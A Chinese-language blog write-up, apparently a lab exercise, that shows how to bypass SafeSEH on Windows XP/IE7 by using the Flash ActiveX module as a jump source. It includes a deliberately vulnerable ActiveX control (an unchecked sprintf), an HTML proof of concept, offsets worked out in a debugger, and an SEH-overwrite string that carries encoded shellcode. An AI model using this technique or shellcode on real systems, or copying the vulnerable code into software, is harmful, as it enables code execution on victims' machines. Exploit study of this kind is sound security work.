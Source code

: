 ```yaml
---
layout:		post
title:		利用Adobe Flash Player ActiveX控件绕过SafeS.E.H
author:		wooy0ung
tags:		windows
category:  	exploit
---
```



>[分析环境]  
>系统: Windows XP Professional sp3  
>编译器: Visual Studio 2008  
>调试器: OllyDbg 1.10  
>浏览器: Internet Explorer 7  
>控件版本: Adobe Flash ActiveX 9.0.124  
>说明: 这篇文参考自《0Day》, 因为"利用Adobe Flash Player ActiveX控件绕过SafeS.E.H"  
这节有一些小坑, 不注意可能会实验失败, 所以写了这篇文来一步一步越过这些坑。  
<!-- more -->


### 0x00 前期准备

新建一个MFC ActiveX控件, 添加一个test方法

![](/assets/img/exploit/2017-10-04-safeseh-break-byactivex/0x00.png)
![](/assets/img/exploit/2017-10-04-safeseh-break-byactivex/0x01.png)

在test方法实现里添加代码

![](/assets/img/exploit/2017-10-04-safeseh-break-byactivex/0x02.png)
![](/assets/img/exploit/2017-10-04-safeseh-break-byactivex/0x03.png)

```
#include <string.h>
#include <windows.h>

DWORD MyException()
{
	printf("There is an exception");
	getchar();
	return 1;
}

void CVulnerAX_SEHCtrl::test(LPCTSTR str)
{
	//AFX_MANAGE_STATE(AfxGetStaticModuleState());
	// TODO: 在此添加调度处理程序代码
	printf("aaaa");//定位该函数的标记
	char dest[100];
	sprintf(dest,"%s",str);	
	int zero=0;
	__try
	{
	    zero=1/zero;
	}
	__except(MyException())
	{
	}
}
```

![](/assets/img/exploit/2017-10-04-safeseh-break-byactivex/0x04.png)

如图设置好项目属性, 选择release版本, 禁用优化, 编译链接, 最后在cmd键入"Regsvr32 /path/to/activex.ocx"注册控件

```
<html>  
<body>  
<object classid="clsid:D27CDB6E-AE6D-11cf-96B8-444553540000" codebase="http://download.macromedia.com/pub/shockwave/cabs/flash/swflash.cab#version=9,0,28,0" width="160" height="260">
  <param name="movie" value="1.swf" />
  <param name="quality" value="high" />
  <embed src="1.swf" quality="high" pluginspage="http://www.adobe.com/shockwave/download/download.cgi?P1_Prod_Version=ShockwaveFlash" type="application/x-shockwave-flash" width="160" height="260"></embed>
</object>
<object classid="clsid:A15FD9CA-B0AA-4F51-9D26-B045CEEB9BA5" id="test"></object>  
<script>  
var s = "\u9090";
while (s.length < 45) {
s += "\u9090";
}
test.test(s);  
</script>  
</body>  
</html>
```

新建一个txt文本, 帖入以上代码, 更名为poc.html

![](/assets/img/exploit/2017-10-04-safeseh-break-byactivex/0x05.png)

注意这里的"clsid:A15FD9CA-B0AA-4F51-9D26-B045CEEB9BA5", 在ActiveX工程里找到


### 0x01 分析栈布局

双击poc.html自动调用IE浏览器打开, 选择允许ActiveX控件

![](/assets/img/exploit/2017-10-04-safeseh-break-byactivex/0x06.png)
![](/assets/img/exploit/2017-10-04-safeseh-break-byactivex/0x07.png)

来到这里, 用OllyDbg附加上去

![](/assets/img/exploit/2017-10-04-safeseh-break-byactivex/0x08.png)

断下后选"E"找到VulnerAX_SEH.ocx, 点进去, 在printf("aaaa")下断运行

![](/assets/img/exploit/2017-10-04-safeseh-break-byactivex/0x09.png)

断下后来到call sprintf, 跟随栈地址, 再往下一步

![](/assets/img/exploit/2017-10-04-safeseh-break-byactivex/0x0a.png)
![](/assets/img/exploit/2017-10-04-safeseh-break-byactivex/0x0b.png)

可以看到数据已经copy到栈上, 起始地址0x01dcf4e4

![](/assets/img/exploit/2017-10-04-safeseh-break-byactivex/0x0c.png)

View->SEH chain, 定位到最近的SE Handler 0x01dcf560, 0x01dcf560-0x01dcf4e4=124 byte

![](/assets/img/exploit/2017-10-04-safeseh-break-byactivex/0x0c.png)

Plugins->OllyFindAddr->Overflow return address->Find CALL/JMP [EBP+N], 选择"L", 找到0x300b2d1c这个跳板

![](/assets/img/exploit/2017-10-04-safeseh-break-byactivex/0x0d.png)

修改poc.html

```
var s = "\u9090";
while (s.length < 60) {
s += "\u9090";
}
s+="\u9090\u9090";
s+="\u2D1C\u300B";
```

再次打开, OD附加上去, 来到call sprintf再走一步, 现在SE Handler已经覆盖成跳板地址

![](/assets/img/exploit/2017-10-04-safeseh-break-byactivex/0x0e.png)

先在0x300b2d1c下断, 来到这里Shift+F9运行

![](/assets/img/exploit/2017-10-04-safeseh-break-byactivex/0x0f.png)

断下后跟进call, 可以看到这时回到了S.E.H结构

![](/assets/img/exploit/2017-10-04-safeseh-break-byactivex/0x10.png)
![](/assets/img/exploit/2017-10-04-safeseh-break-byactivex/0x11.png)


### 0x02 exploit

SE Handler的跳板地址会干扰shellcode, 将shellcode整体放到下面, 用一个短跳跳过去

```
// junk(120 byte)+jmp short(2 byte)+junk(2 byte)+board(4 byte)+junk(8 byte)+payload(114 byte)
var s = "\u9090";
while (s.length < 60) {
s += "\u9090";
}
s+="\u0EEB\u9090";		# 0xEB0E->jmp +14(相对于下一条指令地址+14 byte)
s+="\u2D1C\u300B";		# 跳板
s+="\u9090\u9090\u9090\u9090";		# junk
s+="\ud231\u30b2\u8b64\u8b12\u0c52\u528b\u8b1c\u0842\u728b\u8b20\u8012\u0c7e\u7533\u89f2\u03c7\u3c78\u578b\u0178\u8bc2\u207a\uc701\ued31\u348b\u01af\u45c6\u3e81\u6146\u6174\uf275\u7e81\u4508\u6978\u7574\u8be9\u247a\uc701\u8b66\u6f2c\u7a8b\u011c\u8bc7\uaf7c\u01fc\u68c7\u2067\u0120\u7968\u7530\u686e\u7720\u6f6f\ue189\u49fe\u310b\u51c0\uff50\u90d7";
test.test(s);
```

如上组织250 byte的shellcode, OD再次附加上去, 来到call sprintf往下一步

![](/assets/img/exploit/2017-10-04-safeseh-break-byactivex/0x12.png)

F9直接运行, pwn~

![](/assets/img/exploit/2017-10-04-safeseh-break-byactivex/0x13.png)